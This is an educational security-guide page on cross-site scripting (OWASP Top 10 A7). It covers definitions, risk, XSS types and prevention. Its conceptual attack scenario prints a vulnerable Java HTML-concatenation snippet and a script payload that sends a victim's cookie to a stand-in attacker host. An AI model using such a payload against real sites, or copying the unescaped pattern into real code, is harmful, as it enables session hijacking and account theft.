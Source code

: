 ```yaml
---
name: A7 Cross-site scripting (XSS)
menu: OWASP Top 10
route: /owasp/a7_cross-site_scripting_xss
---
```


# A7 Cross-site scripting (XSS)

## Definition

XSS flaws occur whenever an application includes untrusted data in a new web page without
proper validation or escaping, or updates an existing web page with user-supplied data using a
browser API that can create HTML or JavaScript. XSS allows attackers to execute scripts in the
victim’s browser which can hijack user sessions, deface web sites, or redirect the user to
malicious sites.

## Risk Factor Summary

- Score: 6.0
- Attack Vectors Exploitability: 3
- Security Weakness Prevalence: 3
- Security Weakness Detectability: 3
- Impact Technical: 2

## Context

<iframe width="100%" height="450"
src="https://www.youtube.com/embed/IuzU4y-UjLw">
</iframe>

Automated tools can detect and
exploit all three forms of XSS, and
there are freely available exploitation
frameworks.


XSS is the second most prevalent issue in the
OWASP Top 10, and is found in around two-thirds of
all applications.


Automated tools can find some XSS problems
automatically, particularly in mature technologies
such as PHP, J2EE / JSP, and ASP.NET.


The impact of XSS is moderate for
reflected and DOM XSS, and severe
for stored XSS, with remote code
execution on the victim's browser,
such as stealing credentials,
sessions, or delivering malware to the
victim.

## Is the Application Vulnerable?

There are three forms of XSS, usually targeting users' browsers:

- **Reflected XSS:** The application or API includes unvalidated and
unescaped user input as part of HTML output. A successful
attack can allow the attacker to execute arbitrary HTML and
JavaScript in the victim’s browser. Typically the user will need to
interact with some malicious link that points to an attackercontrolled page, such as malicious watering hole websites,
advertisements, or similar.

- **Stored XSS:** The application or API stores unsanitized user
input that is viewed at a later time by another user or an
administrator. Stored XSS is often considered a high or critical
risk.

- **DOM XSS:** JavaScript frameworks, single-page applications, and
APIs that dynamically include attacker-controllable data to a
page are vulnerable to DOM XSS. Ideally, the application would
not send attacker-controllable data to unsafe JavaScript APIs.

Typical XSS attacks include session stealing, account takeover,
MFA bypass, DOM node replacement or defacement (such as
trojan login panels), attacks against the user's browser such as
malicious software downloads, key logging, and other client-side
attacks.

## How to Prevent

Preventing XSS requires separation of untrusted data from
active browser content. This can be achieved by:
- Using frameworks that automatically escape XSS by design,
such as the latest Ruby on Rails, React JS. Learn the
limitations of each framework's XSS protection and
appropriately handle the use cases which are not covered.
- Escaping untrusted HTTP request data based on the context in
the HTML output (body, attribute, JavaScript, CSS, or URL) will
resolve Reflected and Stored XSS vulnerabilities. The OWASP
[Cheat Sheet 'XSS Prevention'](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) has details on the required data
escaping techniques.
- Applying context-sensitive encoding when modifying the
browser document on the client side acts against DOM XSS.
When this cannot be avoided, similar context sensitive
escaping techniques can be applied to browser APIs as
described in the [OWASP Cheat Sheet 'DOM based XSS
Prevention'](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html).
- Enabling a [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) is a defense-in-depth
mitigating control against XSS. It is effective if no other
vulnerabilities exist that would allow placing malicious code via
local file includes (e.g. path traversal overwrites or vulnerable
libraries from permitted content delivery networks).

## Conceptual Attacks

### Scenario #1: 
The application uses untrusted data in the
construction of the following HTML snippet without validation or
escaping:
```
(String) page += "<input name='creditcard' type='TEXT'
value='" + request.getParameter("CC") + "'>";
```

The attacker modifies the ‘CC’ parameter in the browser to:
```
'><script>document.location=
'http://www.attacker.com/cgi-bin/cookie.cgi?
foo='+document.cookie</script>'
```

This attack causes the victim’s session ID to be sent to the
attacker’s website, allowing the attacker to hijack the user’s
current session.

Note: Attackers can use XSS to defeat any automated CrossSite Request Forgery (CSRF) defense the application might
employ.


## Example Attack Scenarios

### Please review
- The [Explained attack: Cross-site scripting (XSS) in this guide](/attacks_explained/cross-site_scripting_xss)
    - [Reflected XSS](/attacks_explained/cross-site_scripting_xss#reflected-xss)
    - [Stored XSS](/attacks_explained/cross-site_scripting_xss#stored-xss)
    - [DOM XSS](/attacks_explained/cross-site_scripting_xss#dom-xss)
- The [Explained attack: Cross Site Request Forgery (CSRF) in this guide](/attacks_explained/cross_site_request_forgery_csrf)
- The [Explained attack: Server-Side Request Forgery (SSRF) in this guide]()

## Hacking Playground

- [🐐 NodeGoat | A7 Cross-site scripting (XSS)](https://nodegoat.herokuapp.com/tutorial/a7)
- [🧃 Pwning OWASP Juice Shop | A7 Cross-site scripting (XSS)](https://pwning.owasp-juice.shop/part2/xss.html)

## References

### OWASP

- [OWASP Cheat Sheet: XSS Prevention](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [OWASP Cheat Sheet: DOM based XSS Prevention](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html)
- [OWASP Cheat Sheet: XSS Filter Evasion](https://owasp.org/www-community//xss-filter-evasion-cheatsheet)

### CWEs

- [CWE-79: Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)